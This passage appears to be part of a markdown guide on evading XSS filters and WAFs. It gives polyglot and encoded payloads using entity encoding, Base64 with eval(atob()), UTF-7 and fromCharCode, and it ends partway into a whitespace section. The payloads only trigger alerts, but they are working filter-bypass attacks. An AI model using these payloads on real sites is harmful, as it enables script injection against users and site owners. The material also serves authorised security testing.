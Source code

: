 `javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'`

`<svg onload=alert&#x28;1&#x29;>`

`<img src=x onerror=alert&#40;1&#41;>`

`<script>alert1</script>`

`<details open ontoggle=alert(1)>`

---

### Advanced XSS Bypass Techniques

Cross-Site Scripting (XSS) bypass techniques are essential for security researchers and bug bounty hunters to evade filters, Web Application Firewalls (WAFs), and sanitizers in modern applications. These methods exploit parser quirks, encoding variations, and alternative syntaxes to inject malicious scripts. Below, I outline advanced techniques, categorized for clarity, with explanations, example payloads, and real-world applications. These are drawn from established resources and recent discussions, focusing on reflected, stored, and DOM-based XSS evasion as of 2025.

#### 1. **Character Encoding and Obfuscation**
These techniques encode payloads to evade keyword-based filters or WAFs that scan for specific strings like "script" or "alert". Encoding disrupts pattern matching while browsers decode and execute the payload.

- **Hexadecimal and Decimal Encoding**: Convert characters to hex (&#xHH;) or decimal (&#DDD;) entities, with or without semicolons, to bypass filters expecting plain text. Padding with zeros (up to 7 digits) adds complexity.
  - Example: `<a href="&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29">Click Me</a>` (Hex for "javascript:alert('XSS')").
  - Advanced Variant: Zero-padded decimal: `<a href="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">Click Me</a>`.
  - Use Case: Effective against filters in Firefox or Apache Tomcat; test in URL parameters like `?search=`.

- **Base64 Encoding**: Encode the entire payload in Base64 and decode at runtime with `atob()`.
  - Example: `<body onload="eval(atob('YWxlcnQoJ1hTUycp'))">` (Decodes to `alert('XSS')`).
  - Use Case: Bypasses WAFs scanning for JavaScript keywords; common in stored XSS via forms.

- **Unicode and UTF-7/8 Encoding**: Use Unicode escapes (e.g., \uXXXX) or UTF variants to represent characters.
  - Example: `¼script¾alert(¢XSS¢)¼/script¾` (US-ASCII encoding for "<script>alert('XSS')</script>").
  - Advanced Variant: UTF-7 BOM exploit: `+ADw-script+AD4-alert('XSS')+ADw-/script+AD4-`.
  - Use Case: Targets legacy systems or browsers with relaxed parsing; evade CSP by injecting in non-standard charsets.

- **String.fromCharCode Obfuscation**: Dynamically build strings without quotes.
  - Example: `<iframe src=# onmouseover=alert(String.fromCharCode(88,83,83))></iframe>` ("XSS").
  - Use Case: Bypasses quote-escaping filters in JavaScript contexts.

#### 2. **Whitespace and Separator Manipulation**
Insert non-standard whitespace or separators to break keyword detection while browsers ignore them.
